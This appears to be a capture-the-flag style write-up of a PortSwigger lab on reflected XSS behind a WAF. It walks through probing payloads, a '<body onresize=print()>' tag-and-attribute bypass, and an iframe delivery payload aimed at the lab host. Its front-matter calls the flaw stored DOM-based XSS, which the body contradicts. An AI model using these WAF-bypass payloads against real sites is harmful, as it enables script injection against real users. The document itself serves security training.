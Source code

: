 ```yaml
---
author: Nithissh S
pubDatetime: 2024-03-28
modDatetime: 2024-03-28
title: Reflected XSS into HTML context with most tags and attributes blocked
slug: reflected-xss-into-html-context-with-most-tags-and-attributes-blocked
featured: false
draft: false
tags:
  - XSS
  - Burp Certified Practitioner
description:
  In our exploration of the application's search functionality, we encountered tag restrictions while attempting to inject <img> elements. Leveraging the <body> tag with an onresize attribute helped bypass these restrictions. Crafting a payload suitable for delivery via the exploit server, we ensured successful execution, ultimately solving the lab by exploiting the stored DOM-based XSS vulnerability.
---
```


# Intro 

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors

## Solution

In the search functionality of this application, I've entered the following payload `test"><h2>XSS` to check on how the application evaluting the input and the `<h2>` got executed in a newline 

![](../../assets/images/portswigger/XSS/apprentice/xss-48.png)


When entering the complete payload like `test"><img src=x onerror=alert(1)>` in the search functionality and responded with **"No Tags allowed"**

![](../../assets/images/portswigger/XSS/apprentice/xss-49.png)


Now I assume that the `<img>` tag is blocked what's the other alternative like I remember we have a `<body>` tag and with the following payload `<body onerror=alert(1) onload=/>` we have bypassed the tag error but we do have a attribute error now 


![](../../assets/images/portswigger/XSS/apprentice/xss-50.png)


In our case, `onerror` is the attribute and in order to solve it completely with the following payload `"><body onresize=print()>` the request responds with a 200 status code 

![](../../assets/images/portswigger/XSS/apprentice/xss-51.png)


The payload is working right ?, Now let's create a payload which is deliverable to the victim through the exploit server 

**Payload to deliver to victim**

```
<iframe src="https://0ae50081041cae9b809249b1001d0007.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

Put the following payload into the exploit server in the body data and click on store and then deliver the exploit to the client.. Now the lab will be solved


![](../../assets/images/portswigger/XSS/apprentice/xss-52.png)
